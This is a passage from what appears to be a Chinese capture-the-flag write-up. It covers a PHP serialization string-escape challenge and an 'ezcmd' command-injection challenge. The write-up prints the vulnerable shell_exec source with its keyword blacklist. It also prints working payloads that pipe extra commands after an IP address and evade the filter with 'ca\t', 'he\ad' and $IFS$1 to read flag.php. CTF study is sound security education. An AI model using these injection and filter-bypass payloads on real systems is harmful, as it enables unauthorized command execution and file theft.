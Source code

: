 正常情况下序列化后的字符串为：`a:2:{i:0;s:5:"hello";i:1;s:5:"aaaaa";}`这里面`username`是可控的，考虑用`username`覆盖掉后面的东西。于是构造`hello";i:1;s:6:"123456";}`。接下来就剩一个长度的问题，好在这里有一个`x`和`yy`的替换，用来凑长度，所以构造`helloxxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}`,编码后发送POST:`username=helloxxxxxxxxxxxxxxxxxxxx%22%3Bi%3A1%3Bs%3A6%3A%22123456%22%3B%7D`

最后拿到`flag`:`whuctf{f4f9b4cd-e80e-4570-9b82-013d257c0756}`

## ezcmd

地址：http://218.197.154.9:10016/

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("no space!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("no flag");
  } else if(preg_match("/tac|rm|echo|cat|nl|less|more|tail|head/", $ip)){
    die("cat't read flag");
  }
  $a = shell_exec("ping -c 4 ".$ip); 
  echo "<pre>";
  print_r($a);
}
highlight_file(__FILE__);

?>
```

这里涉及到命令行的构造

先看一下本地文件：`http://218.197.154.9:10016/?ip=127.0.0.1|ls`得到结果：

```php+HTML
flag.php
hahaha
index.php

--snip--
```

这个题过滤了一堆关键词，所以一开始想到可以用`base64`来绕过，然而好像没有结果....

因为不能按顺序出现`flag`四个字符所以这里尝试从`ls`里面提取出`flag.php`来绕过。于是通过`ls|head -n1`得到。

然后配合`cat`得到原始的脚本:

```
cat `ls|head -n1`
然后绕过cat和head匹配
ca\t `ls|he\ad -n1`
接着用$IFS$1来充当空格
ca\t$IFS$1`ls|he\ad$IFS$1-n1`
接上前面的127.0.0.1得到完整的payload
http://218.197.154.9:10016/?ip=127.0.0.1|ca\t$IFS$1`ls|he\ad$IFS$1-n1`
```
